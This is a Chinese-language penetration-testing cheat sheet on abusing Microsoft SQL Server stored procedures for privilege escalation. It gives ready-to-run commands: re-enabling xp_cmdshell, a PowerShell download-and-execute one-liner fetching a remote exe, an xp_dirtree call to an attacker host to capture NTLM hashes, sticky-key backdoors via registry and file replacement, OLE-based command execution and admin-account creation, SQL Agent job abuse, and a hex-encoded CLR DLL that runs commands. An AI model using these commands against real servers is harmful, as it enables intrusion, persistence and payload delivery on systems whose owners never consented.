










# 存储过程说明

## xp_dirtree

- 用于显示当前目录的子目录，有如下三个参数
  - directory：表示要查询的目录
  - depath：要显示子目录的深度，默认值是0，表示所有的子目录
  - file：第三个参数，布尔类型，指定是否显示子目录中的文件，默认值是0，标水不显示任何文件，只显示子目录








`xp_dirtree` 能够触发NTLM请求`xp_dirtree '\\<attacker_IP>\any\thing'`

## xp_subdirs

用于得到给定的文件夹内的文件夹列表

```mssql
exec xp_subdirs 'c:\'
```



## xp_fixeddrives

用于查看磁盘驱动器剩余的空间

```mssql
exec xp_fixeddrives
```



## xp_availablemedia

用于获得当前所有的驱动器

```mssql
exec xp_availablemedia
```



## xp_fileexist

用于判断文件是否存在

```mssql
exec xp_fileexist 'c:\windows\123.txt'
```





## xp_create_subdir

用于创建子目录，参数是子目录的路径

```mssql
exec xp_create_subdir 'c:\users\admin\desktop\test'
```



## xp_delete_file

可用于删除文件，但是不会删除任意类型的文件，系统限制它只能删除特定类型（备份文件和报表文件）

- 第一个参数是文件类型（File Type），有效值是0和1，0是指备份文件，1是指报表文件；
- 第二个参数是目录路径（Folder Path）， 目录中的文件会被删除，目录路径必须以“\”结尾；
- 第三个参数是文件的扩展名（File Extension），常用的扩展名是'BAK' 或'TRN'；
- 第四个参数是Date，早于该日期创建的文件将会被删除；
- 第五个参数是子目录（Subfolder），bool类型，0是指忽略子目录，1是指将会删除子目录中的文件；

## xp_regenumkeys

可以查看指定的注册表

```mssql
exec xp_regenumkeys 'HKEY_CURRENT_USER','Control Panel\International'
```



## xp_regdeletekey

删除指定的注册表键值

```mssql
EXEC xp_regdeletekey 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe';
```

## xp_regwrite

**描述：**

修改注册表

**利用条件：**

- xpstar.dll

**修改注册表来劫持粘贴键(映像劫持)**

```mssql
(测试结果 Access is denied，没有权限)
exec master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
```


## sp_addextendedproc

可以用于恢复组件

```mssql
EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_enumgroups ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_loginconfig ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_enumerrorlogs ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_getfiledetails ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc Sp_OACreate ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OADestroy ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAGetErrorInfo ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAGetProperty ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAMethod ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OASetProperty ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAStop ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc xp_regaddmultistring ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regdeletekey ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regdeletevalue ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regenumvalues ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regremovemultistring ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regwrite ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_dirtree ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regread ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_fixeddrives ,@dllname ='xpstar.dll'
```

## sp_dropextendedproc

用于删除扩展存储过程

```mssql
exec sp_dropextendedproc 'xp_cmdshell'
```

## xp_cmdshell

**描述：**

xp_cmdshell 是 Sql Server 中的一个组件，我们可以用它来执行系统命令。

**利用条件：**

- 拥有 DBA 权限, 在 2005 中 xp_cmdshell 的权限是 system，2008 中是 network。
- 依赖 xplog70.dll

```mssql
-- 判断当前是否为DBA权限，为1则可以提权
select is_srvrolemember('sysadmin');

-- 查看是否存在 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- 查看能否使用 xp_cmdshell，从MSSQL2005版本之后默认关闭
select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell'

-- 关闭 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;

-- 开启 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

-- 执行 xp_cmdshell
exec xp_cmdshell 'cmd /c whoami'

-- xp_cmdshell 调用cmd.exe用powershell 远程下载exe并执行
exec xp_cmdshell '"echo $client = New-Object System.Net.WebClient > %TEMP%\test.ps1 & echo $client.DownloadFile("http://example/test0.exe","%TEMP%\test.exe") >> %TEMP%\test.ps1 & powershell  -ExecutionPolicy Bypass  %temp%\test.ps1 & WMIC process call create "%TEMP%\test.exe""'
```

**无回显，也无法进行dnslog怎么办：**

通过临时表查看命令执行结果（在注入时，要能堆叠）

```mssql
CREATE TABLE tmpTable (tmp1 varchar(8000));
insert into tmpTable(tmp1) exec xp_cmdshell 'ipconfig'
select * from tmpTable
```

**如果 xp_cmdshell 被删除了:**

如果 xp_cmdshell 被删除了，需要重新恢复或自己上传 xplog70.dll 进行恢复

以mssql2012为例，默认路径为:

```mssql
C:\Program Files\Microsoft SQL Server\MSSQL12.MSSQLSERVER\MSSQL\Binn\xplog70.dll
```

```mssql
-- 判断存储扩展是否存在,返回结果为1就OK
Select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'

-- 恢复xp_cmdshell,返回结果为1就OK
Exec sp_addextendedproc 'xp_cmdshell','xplog70.dll';
select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'

-- 否则上传xplog70.dll
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

## sp_oacreate

**描述：**

使用sp_oacreate的提权语句，主要是用来调用OLE对象（Object Linking and Embedding的缩写，VB中的OLE对象），利用OLE对象的run方法执行系统命令。

**利用条件：**

- 拥有DBA权限
- 依赖odsole70.dll

```mssql
-- 判断当前是否为DBA权限，为1则可以提权
select is_srvrolemember('sysadmin');

-- 判断SP_OACREATE状态,如果存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

-- 启用 sp_oacreate
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'Ole Automation Procedures', 1;
reconfigure;

-- wscript.shell组件执行系统命令
declare @ffffffff0x int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;

-- 输出执行结果到指定文件
declare @ffffffff0x int
exec sp_oacreate 'wscript.shell',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\www\\1.txt'

-- 利用com组件执行命令
declare @ffffffff0x int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;

-- 利用com组件写文件
DECLARE @ObjectToken INT;
EXEC Sp_OACreate '{00000566-0000-0010-8000-00AA006D2EA4}',@ObjectToken OUTPUT;
EXEC Sp_OASetProperty @ObjectToken, 'Type', 1;
EXEC sp_oamethod @ObjectToken, 'Open';
EXEC sp_oamethod @ObjectToken, 'Write', NULL, 0x66666666666666663078;
EXEC sp_oamethod @ObjectToken, 'SaveToFile', NULL,'ffffffff0x.txt',2;
EXEC sp_oamethod @ObjectToken, 'Close';
EXEC sp_OADestroy @ObjectToken;

-- 利用filesystemobject写vb脚本 （目录必须存在，否则也会显示成功，但是没有文件写入）
declare @o int, @f int, @t int, @ret int,@a int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o,'createtextfile', @f out, 'c:\\www\\ffffffff0x.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, 'hahahahahahhahahah'declare @o int, @f int, @t int, @ret int,@a int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o,'createtextfile', @f out, 'c:\\www\\ffffffff0x.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, 'hahahahahahhahahah(这里是文件写入的内容)'

-- 配合 wscript.shell 组件执行
DECLARE @s int EXEC sp_oacreate [wscript.shell], @s out
EXEC sp_oamethod @s,[run],NULL,[c:\\www\\ffffffff0x.vbs]

-- 复制具有不同名称和位置的 calc.exe 可执行文件 （测试未成功）
declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\\windows\\system32\calc.exe','c:\\windows\\system32\calc_copy.exe';

-- 移动文件 （测试好像只有 利用写入的VB脚本才能创建）
declare @ffffffff0x int
exec sp_oacreate 'scripting.filesystemobject',@ffffffff0x out
exec sp_oamethod @ffffffff0x,'movefile',null,'c:\\www\\1.txt','c:\\www\\3.txt'

-- 替换粘滞键
declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\\windows\\system32\calc.exe','c:\\windows\\system32\sethc.exe';

declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\windows\system32\sethc.exe','c:\windows\system32\dllcache\sethc.exe'

-- 使用JavaScript创建账户，更改其密码并将新账号添加到管理员组 （测试未成功）
declare @ffffffff0x int
EXEC sp_OACreate 'ScriptControl',@ffffffff0x OUT
EXEC sp_OASetProperty @ffffffff0x, 'Language','JavaScript'
EXEC sp_OAMethod @ffffffff0x, 'Eval', NULL,'var o=new ActiveXObject("Shell.Users");z=o.create("testuser");z.changePassword("123456!@#","");z.setting("AccountType")=3;';

```

# SQL Server Agent Job 代理执行计划任务

**描述：**

SQL Server 代理是一项 Microsoft Windows 服务，它执行计划的管理任务，这些任务在 SQL Server 中称为作业。

**利用条件：**

- 拥有 DBA 权限
- 需要 sqlserver 代理 (sqlagent) 开启，Express 版本Sql Server 是无法启用的

```mssql
-- 开启 sqlagent 服务 (还是没有权限，很纳闷，sa账户登录 还没权限)
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT';

-- 利用任务计划命令执行（无回显,可以 dnslog）
-- 创建任务 test，这里test为任务名称，并执行命令，命令执行后的结果，将返回给文本文档out.txt

use msdb;
exec sp_delete_job null,'test'
exec sp_add_job 'test'
exec sp_add_jobstep null,'test',null,'1','cmdexec','cmd /c "whoami>c:/out.txt"'
exec sp_add_jobserver null,'test',@@servername
exec sp_start_job 'test';
```

# CLR提权

**描述：**

从 SQL Server 2005 (9.x) 开始，SQL Server 集成了用于 Microsoft Windows 的 .NET  Framework 的公共语言运行时 (CLR) 组件。 这意味着现在可以使用任何 .NET Framework 语言（包括 Microsoft Visual Basic .NET 和 Microsoft Visual  C#）来编写存储过程、触发器、用户定义类型、用户定义函数、用户定义聚合和流式表值函数。
 \- https://docs.microsoft.com/zh-cn/sql/relational-databases/clr-integration/common-language-runtime-clr-integration-programming-concepts?view=sql-server-ver15

CLR 方式可以利用 16 进制文件流方式导入 DLL 文件，不需要文件落地

- [MDUT 中的16进制的dll](https://github.com/SafeGroceryStore/MDUT/blob/main/MDAT-DEV/src/main/Plugins/Mssql/clr.txt)

dll的制作可以参考下面的文章

- https://xz.aliyun.com/t/10955#toc-12

**利用条件：**

拥有DBA权限

```mssql
-- 启用CLR,SQL Server 2017版本之前
sp_configure 'show advanced options',1;RECONFIGURE; -- 显示高级选项
sp_configure 'clr enabled',1;RECONFIGURE; -- 启用CLR
ALTER DATABASE master SET TRUSTWORTHY ON; -- 将存储.Net程序集的数据库配置为可信赖的

-- 启用CLR，SQL Server 2017版本及之后,引入了严格的安全性，可以选择根据提供的 SHA512 散列专门授予单个程序集的 UNSAFE 权限
sp_configure 'show advanced options',1;RECONFIGURE;
sp_configure 'clr enabled',1;RECONFIGURE;
sp_add_trusted_assembly @hash= <SHA512 of DLL>; -- 将某程序集的SHA512哈希值添加到可信程序集列表中

-- 配置 EXTERNAL ACCESS ASSEMBLY 权限, test 是我指定的数据库
EXEC sp_changedbowner 'sa'
ALTER DATABASE [test] SET trustworthy ON

-- 导入CLR插件
CREATE ASSEMBLY [mssql_CLR]
  AUTHORIZATION [dbo]
  FROM 0x4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000800000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A2400000000000000504500004C010300660705620000000000000000E00022200B013000000E00000006000000000000522C0000002000000040000000000010002000000002000004000000000000000400000000000000008000000002000000000000030040850000100000100000000010000010000000000000100000000000000000000000002C00004F00000000400000A802000000000000000000000000000000000000006000000C000000C82A00001C0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000200000080000000000000000000000082000004800000000000000000000002E74657874000000580C000000200000000E000000020000000000000000000000000000200000602E72737263000000A8020000004000000004000000100000000000000000000000000000400000402E72656C6F6300000C0000000060000000020000001400000000000000000000000000004000004200000000000000000000000000000000342C00000000000048000000020005007C2200004C0800000100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000CA00280600000A72010000706F0700000A00280600000A7243000070725300007002280800000A28020000066F0700000A002A001B300600BC0100000100001173040000060A00730900000A0B076F0A00000A026F0B00000A0003280C00000A16FE010D092C0F00076F0A00000A036F0D00000A0000076F0A00000A176F0E00000A00076F0A00000A176F0F00000A00076F0A00000A166F1000000A00076F0A00000A176F1100000A00076F0A00000A176F1200000A0006731300000A7D010000040706FE0605000006731400000A6F1500000A00140C00076F1600000A26076F1700000A00076F1800000A6F1900000A0C076F1A00000A0000DE18130400280600000A11046F1B00000A6F0700000A0000DE00076F1C00000A16FE01130511052C1D00280600000A067B010000046F1D00000A6F0700000A000038AA00000000731300000A130608280C00000A16FE01130711072C0B001106086F1E00000A2600067B010000046F1F00000A16FE03130811082C22001106725D0000706F1E00000A261106067B010000046F1D00000A6F1E00000A2600280600000A1C8D0E000001251602A2251703A225187275000070A22519076F1C00000A13091209282000000AA2251A72AD000070A2251B1106252D0426142B056F1D00000AA2282100000A6F0700000A0000067B010000046F1D00000A130A2B00110A2A011000000000970025BC0018080000012202282200000A002A4E027B01000004046F2300000A6F1E00000A262A00000042534A4201000100000000000C00000076342E302E33303331390000000005006C000000A8020000237E000014030000B403000023537472696E677300000000C8060000B4000000235553007C0700001000000023475549440000008C070000C000000023426C6F620000000000000002000001571502000902000000FA0133001600000100000014000000030000000100000005000000050000002300000005000000010000000100000003000000010000000000D60101000000000006007001BA0206009001BA0206004601A7020F00DA02000006003C03E4010A005A015A020E001503A7020600EB01E40106002C027A0306002B01BA020E00FA02A7020A0086035A020A0023015A020600C401E4010E000302A7020E00D200A7020E004102A70206001402360006002102360006002700E401000000002D00000000000100010001001000E9020000150001000100030110000100000015000100040006007003790050200000000096008D007D000100842000000000960099001A0002005C22000000008618A102060004005C22000000008618A102060004006522000000008300160082000400000001007F0000000100F200000002002B03000001003A020000020010030900A10201001100A10206001900A1020A003100A10206005100A102060061001A0110006900A4001500710035031A003900A10206003900F50132007900E50015007100A403370079001D031500790091033C007900C20041007900AE013C00790087023C00790055033C004900A10206008900A1024700390068004D0039004F0353003900FB000600390075025700990083005C003900430306004100B6005C003900A90060002900C2015C0049000F0164004900CB016000A100C2015C00710035036A002900A1020600590056005C0020002300BA002E000B0089002E00130092002E001B00B10063002B00BA0020000480000000000000000000000000000000004000000004000000000000000000000070005F000000000004000000000000000000000070004A00000000000400000000000000000000007000E40100000000030002000000003C3E635F5F446973706C6179436C617373315F30003C52756E436F6D6D616E643E625F5F3000496E743332003C4D6F64756C653E0053797374656D2E494F006D7373716C5F434C520053797374656D2E44617461006765745F44617461006D73636F726C6962006164645F4F757470757444617461526563656976656400636D640052656164546F456E640045786563436F6D6D616E640052756E436F6D6D616E640053656E64006765745F45786974436F6465006765745F4D657373616765007365745F57696E646F775374796C650050726F6365737357696E646F775374796C65007365745F46696C654E616D650066696C656E616D6500426567696E4F7574707574526561644C696E6500417070656E644C696E65006765745F506970650053716C5069706500436F6D70696C657247656E6572617465644174747269627574650044656275676761626C654174747269627574650053716C50726F63656475726541747472696275746500436F6D70696C6174696F6E52656C61786174696F6E734174747269627574650052756E74696D65436F6D7061746962696C697479417474726962757465007365745F5573655368656C6C4578656375746500546F537472696E67006765745F4C656E677468006D7373716C5F434C522E646C6C0053797374656D00457863657074696F6E006765745F5374617274496E666F0050726F636573735374617274496E666F0053747265616D526561646572005465787452656164657200537472696E674275696C6465720073656E646572004461746152656365697665644576656E7448616E646C6572004D6963726F736F66742E53716C5365727665722E536572766572006765745F5374616E646172644572726F72007365745F52656469726563745374616E646172644572726F72002E63746F720053797374656D2E446961676E6F73746963730053797374656D2E52756E74696D652E436F6D70696C6572536572766963657300446562756767696E674D6F6465730053746F72656450726F63656475726573004461746152656365697665644576656E744172677300617267730050726F63657373007365745F417267756D656E747300617267756D656E747300436F6E636174004F626A6563740057616974466F7245786974005374617274007365745F52656469726563745374616E646172644F7574707574007374644F75747075740053797374656D2E546578740053716C436F6E74657874007365745F4372656174654E6F57696E646F770049734E756C6C4F72456D707479000000004143006F006D006D0061006E0064002000690073002000720075006E006E0069006E0067002C00200070006C006500610073006500200077006100690074002E00000F63006D0064002E00650078006500000920002F0063002000001753007400640020006F00750074007000750074003A0000372000660069006E00690073006800650064002000770069007400680020006500780069007400200063006F006400650020003D00200000053A00200000005E54E0227F5F5E409B9302C5EA5F62E7000420010108032000010520010111110400001235042001010E0500020E0E0E11070B120C121D0E0212210212250202080E042000123D040001020E0420010102052001011141052002011C180520010112450320000204200012490320000E0320000805200112250E0500010E1D0E08B77A5C561934E08903061225040001010E062002011C122D0801000800000000001E01000100540216577261704E6F6E457863657074696F6E5468726F777301080100070100000000040100000000000000006607056200000000020000001C010000E42A0000E40C000052534453F12CF9670467FE4789AA4C0BB3C9132401000000433A5C55736572735C546573745C736F757263655C7265706F735C6D7373716C5F434C525C6D7373716C5F434C525C6F626A5C44656275675C6D7373716C5F434C522E70646200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000282C00000000000000000000422C0000002000000000000000000000000000000000000000000000342C0000000000000000000000005F436F72446C6C4D61696E006D73636F7265652E646C6C0000000000FF250020001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001001000000018000080000000000000000000000000000001000100000030000080000000000000000000000000000001000000000048000000584000004C02000000000000000000004C0234000000560053005F00560045005200530049004F004E005F0049004E0046004F0000000000BD04EFFE00000100000000000000000000000000000000003F000000000000000400000002000000000000000000000000000000440000000100560061007200460069006C00650049006E0066006F00000000002400040000005400720061006E0073006C006100740069006F006E00000000000000B004AC010000010053007400720069006E006700460069006C00650049006E0066006F0000008801000001003000300030003000300034006200300000002C0002000100460069006C0065004400650073006300720069007000740069006F006E000000000020000000300008000100460069006C006500560065007200730069006F006E000000000030002E0030002E0030002E00300000003C000E00010049006E007400650072006E0061006C004E0061006D00650000006D007300730071006C005F0043004C0052002E0064006C006C0000002800020001004C006500670061006C0043006F00700079007200690067006800740000002000000044000E0001004F0072006900670069006E0061006C00460069006C0065006E0061006D00650000006D007300730071006C005F0043004C0052002E0064006C006C000000340008000100500072006F006400750063007400560065007200730069006F006E00000030002E0030002E0030002E003000000038000800010041007300730065006D0062006C0079002000560065007200730069006F006E00000030002E0030002E0030002E0030000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002000000C000000543C00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
